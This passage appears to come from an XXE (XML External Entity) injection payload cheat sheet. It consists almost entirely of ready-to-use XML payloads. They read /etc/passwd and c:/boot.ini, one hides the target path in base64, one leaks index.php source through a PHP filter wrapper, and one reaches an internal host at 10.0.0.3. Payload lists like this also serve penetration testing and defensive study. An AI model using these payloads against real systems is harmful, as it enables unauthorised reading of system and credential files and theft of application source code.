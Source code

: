 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM` and `PUBLIC` are almost synonym.

```ps1
<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

### Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

